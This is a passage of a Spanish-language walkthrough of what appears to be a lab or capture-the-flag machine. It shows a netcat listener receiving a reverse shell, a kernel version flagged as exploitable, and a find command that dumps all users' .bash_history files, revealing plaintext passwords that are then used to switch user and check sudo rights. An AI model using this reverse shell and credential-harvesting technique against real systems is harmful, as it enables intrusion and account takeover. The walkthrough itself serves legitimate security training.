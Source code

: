 ```sql
```
Se obtuvo la reverse shell:
```python
$rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.0.21] from (UNKNOWN) [192.168.0.72] 43384
script /dev/null -c bash
Script started, file is /dev/null
www-data@red:/var/www/https/blogblog/wp-content/uploads$ 
```

## GanarControl
En el reconocimiento se encontraron estas vulnerabilidades:
Kernel de linux vulnerable para escalación:
```js
SHayslett@red:~$ uname -a
Linux red.initech 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:34:49 UTC 2016 i686 athlon i686 GNU/Linux
```
Por otro lado, se encontró acceso a las carpetas personales de los usuarios y en ellas, el documento `.bash_history`, por lo tanto se ejecutó un comando para visualizar todos los archivos de histórico.
```python
$ find . -name ".bash_history" 2>/dev/null -exec cat {} + | less

id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
:
```
Explicación del comando:
- `find .`: Se buscan archivos en el directorio actual.
- `-name ".bash_history"`: Se define el patrón del nombre definido para búsqueda.
- `2>/dev/null`: Se ocultan los errores si existen directorios sin permisos.
- `-exec cat {} +`: Para cada archivo encontrado '`{}`', se ejecuta `cat` para mostrar el contenido. Se agrupan varios archivos en una sola ejecución con `+`.

Este código y más variaciones en [[Bash Trucazos]].

A partir de aquí, se volvió a bifurcar el camino para llegar a la escalación de privilegios por diferentes escenarios de riesgo:
### Credenciales filtradas
```js
SHayslett@red:/home$ su peter
Password: 
red% script /dev/null -c bash
Script started, file is /dev/null
peter@red:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

```
